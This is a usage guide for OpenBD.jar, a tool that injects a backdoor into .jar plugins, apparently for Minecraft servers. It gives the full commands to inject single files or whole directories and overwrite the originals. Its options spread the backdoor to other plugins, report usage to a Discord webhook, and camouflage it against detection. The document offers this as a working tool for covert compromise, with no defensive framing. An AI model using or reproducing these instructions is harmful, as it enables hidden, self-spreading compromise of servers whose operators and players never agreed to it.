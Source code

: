 # OpenBD Usage Guide

To use `OpenBD.jar`, follow these steps:

### Step 1: Generate the Configuration File

First, you need to create a `config.json` file to customize the backdoor's behavior. Use the following command in your terminal or command prompt:

```sh
java -jar OpenBD.jar --generate-config config.json
```

This command will create a `config.json` file with default values.

### Step 2: Edit the Configuration File

Open the newly created `config.json` file and modify it to suit your needs.

#### Default Configuration:
```json
{
  "authorized_uuids": [],
  "authorized_usernames": [],
  "command_prefix": "!",
  "inject_into_other_plugins": false,
  "display_debug_messages": false,
  "discord_token": "",
  "password": ""
}
```

#### Option Descriptions:

| Option | Purpose |
| :--- | :--- |
| `authorized_uuids` | A list of player UUIDs that are authorized to use the backdoor. |
| `authorized_usernames` | A list of player names that are authorized to use the backdoor. |
| `command_prefix` | The prefix for backdoor commands (e.g., `!`). |
| `inject_into_other_plugins` | Automatically spread the backdoor to other plugins on the server. |
| `display_debug_messages` | Display debug messages in the console. |
| `discord_token` | A Discord webhook token to send information when someone uses your injected plugin. |
| `password` | The password required to log in to the backdoor using `!login [password]`. |

#### Example of a Modified Config File:
```json
{
  "authorized_uuids": ["069a79f4-44e9-4726-a5be-fca90e38aaf5"],
  "authorized_usernames": ["Kudo","kudo"],
  "command_prefix": "!",
  "inject_into_other_plugins": true,
  "display_debug_messages": false,
  "discord_token": "YOUR_DISCORD_WEBHOOK_TOKEN_HERE",
  "password": "12345"
}
```

#### Helpful Tips:
*   If both `authorized_uuids` and `authorized_usernames` are left empty, everyone on the server will see the backdoor login message but cannot use it without the password.
*   If `password` is not set, you can log in with just the `!login` command.
*   To remain discreet, keep `display_debug_messages` set to `false`.

### Step 3: Inject the Backdoor into a Plugin

Once you have configured `config.json`, you can inject the backdoor into one or more plugins.

#### General Syntax:
```sh
java -jar OpenBD.jar --inject [options]
```

#### Examples:

**1. Inject into a single plugin file:**

This command injects the backdoor into `plugin.jar` and creates a new file named `plugin-injected.jar`.

```sh
java -jar OpenBD.jar --inject -m single -i plugin.jar -o plugin-injected.jar -c config.json
```

**2. Inject and replace the original file:**

Use the `-r` (or `--replace`) flag to overwrite the original plugin file. **Use this option with caution.**

```sh
java -jar OpenBD.jar --inject -m single -i plugin.jar -c config.json -r
```

**3. Inject into multiple plugins in a directory:**

This command processes all `.jar` files in the `plugins-in` directory and saves the injected files to the `plugins-out` directory.

```sh
java -jar OpenBD.jar --inject -m multiple -i plugins-in/ -o plugins-out/ -c config.json
```

**4. Inject with camouflage:**

Add the `--camouflage` flag to make the backdoor harder to detect. This example also replaces the original file.

```sh
java -jar OpenBD.jar --inject -m single -i plugin.jar -c config.json --camouflage -r
```

---

## List of Commands and Flags

### Main Commands:

| Command | Description |
| :--- | :--- |
| **`--inject`** | The main operation, used to inject the backdoor into `.jar` files. |
| **`--generate-config <path>`** | Generates a default `config.json` file at the specified path. |
| **`--status <path>`** | Checks if a plugin has been injected (feature not yet complete). |
| **`--help`**, **`-h`** | Shows this help message. |

### Options for the `--inject` command:

| Option | Alias | Description |
| :--- | :--- | :--- |
| **`--config <path>`** | `-c` | Path to the `config.json` configuration file. |
| **`--mode <mode>`** | `-m` | Processing mode: `single` (one file) or `multiple` (default, for directories). |
| **`--input <path>`** | `-i` | Input path. A file for `single` mode (default: `in.jar`), or a directory for `multiple` mode (default: `in`). |
| **`--output <path>`** | `-o` | Output path. A file for `single` mode (default: `out.jar`), or a directory for `multiple` mode (default: `out`). |
| **`--replace`** | `-r` | Replaces the input file(s) instead of creating new ones in the output path. |
| **`--camouflage`** | | Camouflages the backdoor to avoid detection. |
| **`--trace-errors`** | `-tr` | Displays the full stack trace on errors. |